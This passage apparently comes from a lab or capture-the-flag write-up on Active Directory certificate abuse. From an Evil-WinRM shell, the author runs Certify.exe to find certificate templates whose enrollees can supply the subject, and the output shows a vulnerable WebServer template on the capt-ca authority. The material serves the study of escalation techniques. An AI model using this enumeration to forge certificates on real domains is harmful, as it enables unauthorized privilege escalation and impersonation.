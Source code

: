 ```

[+] No Vulnerable Certificates Templates found!



Certify completed in 00:00:00.5201741
```

In the context of escalation, we are interested in certificate templates where we can specify the user for whom the certificate is issued. This is achieved through the 'enrolleeSuppliesSubject' attribute in the certificate template object. 

```
*Evil-WinRM* PS C:\Users\ca_admin\Documents> .\certify.exe find /enrolleeSuppliesSubject

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=capt,DC=org'

[*] Listing info about the Enterprise CA 'capt-ca'

    Enterprise CA Name            : capt-ca
    DNS Hostname                  : dc01.capt.org
    FullName                      : dc01.capt.org\capt-ca
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=capt-ca, DC=capt, DC=org
    Cert Thumbprint               : 829C336B788EBB4A8602C061BD75CEF024BB61B6
    Cert Serial                   : 1D6245C40897D6A5438655E8FBA16DA1
    Cert Start Date               : 9/19/2023 10:58:01 AM
    Cert End Date                 : 9/19/2028 11:08:01 AM
    Cert Chain                    : CN=capt-ca,DC=capt,DC=org
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               CAPT\Domain Admins            S-1-5-21-541188004-2695660962-2805497550-512
      Allow  ManageCA, ManageCertificates               CAPT\Enterprise Admins        S-1-5-21-541188004-2695660962-2805497550-519
    Enrollment Agent Restrictions : None
Enabled certificate templates where users can supply a SAN:
    CA Name                               : dc01.capt.org\capt-ca
    Template Name                         : WebServer
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : <null>
```